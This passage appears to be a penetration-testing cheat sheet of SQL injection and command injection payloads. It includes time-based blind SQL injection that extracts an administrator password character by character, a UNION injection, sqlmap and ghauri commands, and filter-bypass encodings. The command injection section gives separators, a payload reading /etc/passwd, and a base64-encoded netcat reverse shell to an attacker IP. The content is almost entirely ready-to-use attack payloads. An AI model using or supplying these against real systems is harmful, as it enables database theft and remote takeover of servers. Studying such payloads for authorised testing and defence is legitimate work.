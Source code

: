 ```sql
;SELECT CASE WHEN (1=1) THEN pg_sleep(7) ELSE pg_sleep(0) END--
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END--
;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
{
  "uuid":"12345') UNION ALL SELECT NULL, NULL, @@version, NULL, NULL--",
  "token":"",
  ....
}

kali$ ghauri -r burp.txt -p user -level 3 -risk 3 -current-db -banner
kali$ sqlmap -r burp.txt 
```

##### Bypass Techniques

```sql
# Using Comments	
select/**/user();
select/*hahaha*/user();

# URL Encode Spaces	
+

# Other URL encoding (newline, Tab, etc.)	
%0d, %0a, %09, %0b,%a0

# Use parentheses. Parentheses are used to enclose subqueries. There can be no extra spaces on both ends of the parentheses.	
select(user())from(t_user);

# Use hexadecimal to bypass quotes
-- Original
select table_name from information_schema.tables where table_schema='test';
-- Hexadecimal
select table_name from information_schema.tables where table_schema=0x74657374;

# Use char to bypass quotes
-- Original
select table_name from information_schema.tables where table_schema='test';
-- Char
select table_name from information_schema.tables where table_schema=char(116,101,115,116);
```

### Command Injection

```bash
# Generic Commands
`ping 127.0.0.1`
|id
&id
;id
|id;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
echo <base64 encoode "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $IP 1337 >/tmp/f | sh"> | base64 -d | sh

# Blind OS command injection with time delays
email=x||ping+-c+10+127.0.0.1||

# Blind OS command injection with output redirection
email=||whoami>/var/www/images/output.txt||
filename=output.txt

```